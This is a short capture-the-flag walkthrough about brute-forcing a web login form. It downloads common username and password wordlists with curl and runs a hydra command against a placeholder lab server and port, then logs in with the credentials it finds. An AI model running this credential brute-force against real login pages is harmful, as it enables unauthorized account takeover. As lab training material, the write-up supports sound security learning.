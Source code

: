 # Login Forms

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download the username and password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt
  ```
  {% endcode %}
* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f SERVER_IP -s SERVER_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  ```
  {% endcode %}

Step 3:

*   Login with the founded credentials.\


    <figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

